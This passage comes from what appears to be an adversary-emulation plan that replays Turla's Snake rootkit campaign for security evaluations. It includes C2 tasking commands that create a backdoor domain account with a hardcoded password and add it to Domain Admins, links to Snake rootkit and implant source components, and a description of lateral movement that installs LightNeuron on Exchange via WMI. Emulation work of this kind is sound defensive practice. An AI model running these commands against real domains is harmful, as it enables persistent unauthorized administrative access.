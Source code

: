 ```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net user leshy Password12345 /add /domain", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute, then instruct Snake to add `Leshy` to the `Domain Admins` group.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net group \"Domain Admins\" leshy /add /domain", "runas": "nk\\zilvinasadmin"}'
```

### :moyai: Source Code

* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L180)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [C2 communications over HTTP](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution for generic process](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [File Upload](../../Resources/Snake/UserModule/src/comms_http.cpp#L359)

### :microscope: Cited Intelligence

* TBD

## Step 18 - Lateral Movement to Exchange Server

:microphone: `Voice Track:`

Step 18 emulates Turla laterally moving to the Exchange server and installing the LightNeuron implant there.

Snake downloads LightNeuron and associated Powershell installation script and config files, transfers them to the Exchange server, and remotely executes the installation script using WMI to install LightNeuron on the Exchange server.

---

### ☣️ Procedures

